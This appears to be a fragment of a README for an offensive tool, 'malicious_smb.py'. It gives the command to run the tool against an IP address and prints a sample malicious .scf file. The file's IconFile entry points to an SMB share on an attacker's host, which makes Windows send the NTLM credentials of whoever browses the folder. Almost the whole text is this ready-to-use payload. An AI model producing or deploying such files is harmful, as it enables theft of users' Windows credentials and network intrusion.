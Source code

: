 ### SAMPLE

Execution Example
> $ python malicious_smb.py 10.10.10.10

This is a sample payload generated by `malicious_smb.py` script.

```
[SHELL]
Command=2
IconFile=\\10.10.10.10\share\fo92dk.ico
[Taskbar]
Command=ToggleDesktop
```
